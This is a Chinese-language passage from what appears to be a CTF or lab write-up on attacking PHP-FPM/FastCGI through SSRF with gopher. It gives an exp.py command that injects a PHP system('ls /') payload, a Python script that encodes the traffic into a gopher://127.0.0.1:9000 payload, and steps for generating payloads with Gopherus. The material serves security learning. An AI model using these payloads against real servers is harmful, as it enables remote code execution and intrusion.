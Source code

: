 这里我们能知道的是 /var/www/html/index.php

所以我们要执行的php文件是 index.php

所以这里的命令就是

```cobol
py2 .\exp.py -c "<?php system('ls /');?>" -p 9000 127.0.0.1 /var/www/html/index.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/974fd5d1a02ba63f37625bf50c504221.png" alt="" style="max-height:399px; box-sizing:content-box;" />


发现获取到了 攻击流量

我们通过 url编码即可

```cobol
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode
file= open('C:\\Users\\Administrator\\Desktop\\1.txt','rb')
payload= file.read()
payload= quote(payload).replace("%0A","%0A%0D")
print("gopher://127.0.0.1:9000/_"+quote(payload))
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4bc843248754d1bfd0670d942129f589.png" alt="" style="max-height:108px; box-sizing:content-box;" />


然后实现攻击

但是我失败了 确实不知道为什么

我选择第二个方式

 [https://blog.csdn.net/mysteryflower/article/details/94386461](https://blog.csdn.net/mysteryflower/article/details/94386461) 

#### 2.gopherus

打开kali 使用这个工具 直接输出payload

```cobol
git clone https://github.com/tarunkant/Gopherus.git
 
cd Gopherus
 
python2 gopherus.py --exploit fastcgi
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2fe04a6db6b51cd88af9182caea42c4e.png" alt="" style="max-height:194px; box-sizing:content-box;" />


然后我们需要再一次进行url编码

然后实现利用
